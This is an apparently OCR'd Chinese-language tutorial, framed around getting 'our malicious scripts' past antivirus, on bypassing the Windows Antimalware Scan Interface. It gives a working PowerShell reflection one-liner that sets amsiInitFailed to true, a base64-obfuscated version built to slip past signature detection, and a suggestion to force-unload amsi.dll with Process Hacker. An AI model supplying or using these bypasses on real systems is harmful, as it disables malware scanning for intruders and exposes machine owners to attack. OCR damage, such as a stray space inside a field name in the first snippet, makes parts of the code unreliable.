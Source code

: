 AMSI其实只是一个 通道，真正识别是否是恶意软件或脚本的还是杀毒软件

AMSI把我们的恶意脚本交给杀毒软件，杀毒软件做识别。

大部分杀毒软件的识别方式还是特征码的方式，当 然杀毒软件也会把样本传到云端做机器学习或者人工分析，最后再反馈特征库给杀毒软件，导致我们恶意脚本被杀

### 关闭AMSI

#### 原理

既然AMSI只是一个通道，那么我们就可以把这个通道关闭，也就下一步阻断了杀毒软件

利用反射直接把判断是否要使用杀毒软件 进行扫描的变量始终改成false。这样AMSI就不会把我们的恶意脚本交给杀毒软件，而是直接返回 `AMSI_RESULT_NOT_DETECTED`

#### 实操

```php
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiI nitFailed','NonPublic,Static').SetValue($null,$true)
```

由于这一行命令也是脚本，自身也会被AMSI传递给杀毒软件

### 两者结合

我们可以使用脚本混淆关闭AMSI的一行命令，进行绕过AMSI

#### 两个关键点：

1.查杀的关键字符

`System.Management.Automation.AmsiUtils` 和 `amsiInitFailed`

2.编码解码

#### 实操

进行base64编码

```php
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

Bypass AMSI-4
-------------

### 暴力卸载amsi.dll

在powershell启动的时候，会加载amsi.dll，然后调用其中的AmsiScanString或AmsiScanBuffer函数来进行检测

那么我们可以暴力卸载amsi.dll，但是我们要去考虑powershell进程也会崩掉

使用工具process hacker

<https://processhacker.sourceforge.io/downloads.php>
